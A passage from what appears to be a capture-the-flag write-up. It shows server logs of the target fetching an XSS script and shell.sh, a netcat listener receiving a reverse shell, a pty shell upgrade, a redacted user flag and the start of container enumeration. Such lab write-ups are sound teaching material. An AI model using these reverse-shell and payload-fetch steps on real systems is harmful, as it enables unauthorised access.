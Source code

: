     
    10.10.11.112 - - [25/Aug/2021 15:21:04] "GET /xss-6.js HTTP/1.1" 200 -
    10.10.11.112 - - [25/Aug/2021 15:21:08] "GET /shell.sh HTTP/1.1" 200 -
    

And then there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.112] 51690
    bash: cannot set terminal process group (22): Not a tty
    bash: no job control in this shell
    bash: /root/.bashrc: Permission denied
    bash-5.0$
    

I can upgrade with `python` and `pty`:

    
    
    bash-5.0$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    bash: /root/.bashrc: Permission denied
    bash-5.0$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    bash-5.0$ 
    

And there’s `user.txt` in `/home/localstack`:

    
    
    bash-5.0$ cat /home/localstack/user.txt
    c877918f************************
    

## Shell as root on localstack

### Enumeration

#### Container FS

I’m currently the localstaack user in what is clearly a container. The
container has the IP 172.17.0.2, and there’s a `/.dockerenv` file.

There’s two user home directories, `localstack` and `node`. Both are
completely empty:

    
    
    bash-5.0$ ls -la home/localstack/
    total 12
    drwxr-sr-x    1 localsta localsta      4096 Jul 19 17:46 .
    drwxr-xr-x    1 root     root          4096 Feb  1  2021 ..
    lrwxrwxrwx    1 root     localsta         9 Jul 19 17:46 .ash_history -> /dev/null
    -r--r-----    1 root     localsta        33 Jul 12 13:59 user.txt
    bash-5.0$ ls -la home/node/
    total 8
    drwxr-sr-x    2 node     node          4096 Dec 17  2020 .
    drwxr-xr-x    1 root     root          4096 Feb  1  2021 ..
    